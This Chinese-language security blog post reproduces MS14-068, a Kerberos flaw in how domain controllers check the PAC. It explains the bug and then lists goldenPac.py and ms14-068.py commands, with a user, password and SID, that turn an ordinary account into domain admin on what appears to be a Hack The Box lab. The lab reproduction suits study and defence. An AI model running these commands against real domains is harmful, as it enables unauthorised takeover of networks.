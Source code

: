 #  MS14-068 漏洞复现   
原创 摆烂的beizeng  土拨鼠的安全屋   2025-01-20 03:01  
  
# 漏洞危害  
  
提升普通域账号为域管理员账号。  
# PAC  
  
PAC中包含用户的SID、Group的SID。所以PAC决定了用户的组属性。决定了用户的权限。也就是根据PAC来给予客户端访问何种服务的权限。  
  
PAC存在于TGT中，当用户使用TGT访问KDC的TGS的时候，TGS解密TGT检查PAC的合法性，并重新签名PAC，然后PAC会放在ST中，最后服务主机会根据所携带的PAC来决定客户端访问某些服务的权限。  
# 漏洞关键点  
  
1、KDC在进行签名认证的时候，可以使用客户端指定的任意签名算法。  
- 可以任意指定签名算法，所以伪造的内容就是合法的。  
  
2、PAC没有被放在TGT中，但是KDC依旧能够解析PAC。  
  
3、KDC会验证两个PAC，一个是TGT中的PAC，另一个是不在TGT中的PAC，验证成功之后，会提取KDC中的USER SID和组SID。进行重新签名。返回一个TGT给用户，而不是ST。  
  
综上：  
  
攻击者通过截取SID，构造高权限的用户，生成PAC，获取TGT，将普通域用户权限提升为域管理员权限。  
# 漏洞利用前提  
  
1.域控没有打MS14-068的补丁 2.攻击者拿下了一台域内的普通计算机,并获得普通域用户以及密码/hash值，以及用户的suid  
# 漏洞利用  
## goldenPac  
```
python3 goldenPac.py  -dc-ip 10.129.171.157 -target-ip 10.129.171.157  htb.local/james:J@m3s_P@ssW0rd\!@mantis.htb.local
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeWUKehnB8QqPhibKSV5lYxcs2jmsdEnKs5eEzIqb1wGR284oSGj762UBP79SfRSXPNXpgcqsFH6VFw/640?wx_fmt=png&from=appmsg "")  
## ms14-068  
```
python ms14-068.py -u James@htb.local  -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d 10.129.172.203 -p J@m3s_P@ssW0rd!
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeWUKehnB8QqPhibKSV5lYxcsjUrVibgicJtMDib5BhGEBqUxnVyxPFLqagiaGCRlDlapFGuK0EibmDugCYA/640?wx_fmt=png&from=appmsg "")  
```
python ms14-068.py -u htb.local/james@mantis.htb.local -s S-1-5-21-4220043660-4019079961-2895681657-1103 -d 10.129.172.203 -p J@m3s_P@ssW0rd!
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/OPGiamZ2dJeWUKehnB8QqPhibKSV5lYxcsrkBgIHQnTq3DrK0kE97thgsuiba2eOID7atUZaNdVnrqibAMJSNfPicicQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
